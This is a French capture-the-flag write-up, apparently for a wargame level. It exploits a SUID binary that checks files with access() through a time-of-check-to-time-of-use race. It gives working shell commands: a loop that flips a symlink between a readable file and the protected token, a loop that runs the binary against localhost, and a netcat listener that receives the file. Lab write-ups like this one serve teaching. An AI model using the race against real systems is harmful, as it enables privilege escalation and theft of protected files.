

Dans le home du level10 se trouve un executable et un fichier token.

Il nous est impossible d'ouvrir le fichier *token* puisqu'il appartient à *flag10*.

Cependant on peut voir que l'executable *level10* appartient aussi à flag10 et qu'il à la permission SUID.

On pourrait donc exploiter cet executable pour se faire passer pour flag10 et ainsi accéder à token.

Cet executable prend 2 paramètres:

`./level10 file host`

Le premier étant un fichier auquel notre utilisateur à le droit d'accéder et le second étant l'ip de destinataire à qui envoyer le fichier.

Pour trouver la faille, il faut utiliser la commande `strings` sur level10:

On obtient une longue liste de chaine de charactère présentes dans l'executable mais ce qui nous intéresse c'est l'appel à la fonction `access`.

Cette fonction est connue pour être vulnérable aux attaques de type TOCTOU (Time-of-check to time-of-use)

Source:
- man access (dans les notes)
- https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

Il nous faut donc 4 commandes pour récupérer le token:

1. Créer un fichier auquel nous avons accès: touch /tmp/coucou
2. Changer la cible d'un lien sympolique très rapidement pour bypass access: `while true; do ln -fs /tmp/coucou /tmp/lol; ln -fs ~/token /tmp/lol; done`
3. Appeler en boucle `level10` pour envoyer le fichier sur l'adresse locale: `while true; do ./level10 /tmp/lol 127.0.0.1; done`
4. Récupérer le fichier envoyer par `level10`: `nc -l 6969`
